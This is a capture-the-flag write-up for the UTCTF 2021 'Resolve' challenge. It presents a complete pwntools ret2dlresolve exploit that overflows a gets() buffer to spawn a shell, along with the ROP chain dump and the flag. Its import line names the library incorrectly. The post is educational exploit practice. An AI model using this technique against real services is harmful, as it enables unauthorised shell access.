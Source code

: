 ```yaml
---
layout: post
title: [UTCTF 2021] Resolve
author: Kevin Zhang
---
```


We are given a very barebones binary that looks like this:

```
int main(void)

{
  char local_10 [8];
  
  gets(local_10);
  return 0;
}

```
Now the vulnerability is a classic buffer overflow but the problem is that this is all there is in the binary. There isn't any libc addresses in the stack or in any of the registers when we return. Since we can't find an address leak that means we can't just find the address of `system()` and create a rop chain using that. After some digging I was able to find that the attack is called a ret2dlresolve. Here is a blog with more info about that: https://ypl.coffee/dl-resolve/  

Now what we could do is write a ret2dlresolve payload by hand such as the one [here](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62). No thanks. Fortunately, pwntools has a ret2dlsresolve module that will automatically generate the payloads for you. So our payload ends up being something like this:

```
from pwntools import *
context.binary = elf = ELF('resolve')
rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])

# Allows us to write to any location. We want to write to where the dlresolve payload will be
rop.gets(dlresolve.data_addr)

# RET gadget for stack alignment.
rop.raw(0x00401159) 

# The dlresolve payload
rop.ret2dlresolve(dlresolve)

# Put it together
raw_rop = rop.chain()

p = elf.process()

# First gets() to setup the rop chain to write to the correct address
p.sendline(fit({8+context.bytes: raw_rop})) 

# Second gets() to send the dlresolve payload.
p.sendline(dlresolve.payload) 
p.interactive()
```

The rop chain looks something like this:

```
0x0000:         0x4011c3 pop rdi; ret                                                                                   
0x0008:         0x404e00 [arg0] rdi = 4214272                                                                           
0x0010:         0x401044 gets(arg0)                                                                                           
0x0018:         0x401159 ret; #for stack alignment                                                                   
0x0020:         0x4011c3 pop rdi; ret                                                                                   
0x0028:         0x404e50 [arg0] rdi = 4214352                                                                           
0x0030:         0x401020 [plt_init] system                                                                             
0x0038:         0x310 [dlresolve index]
```

Our overall program flow will look like `main()->pop rdi->gets()->pop rdi->system()->_dl_runtime_resolve()->system()`. The `pop rdi`'s are to setup arguments to functions later in the chain.

So just aim this at the server and ye shall receive the flag.  
`utflag{2_linker_problems_in_one_ctf?8079235}`

It's pretty cool that we can still call libc functions without the use of address leaks. This exploit will definitely be something that I keep in mind for the future. Although it was really simple for this challenge due to no PIE which probably simplified where we could put the dlpayload. Also pwntools is an awesome tool and thank god it exists.



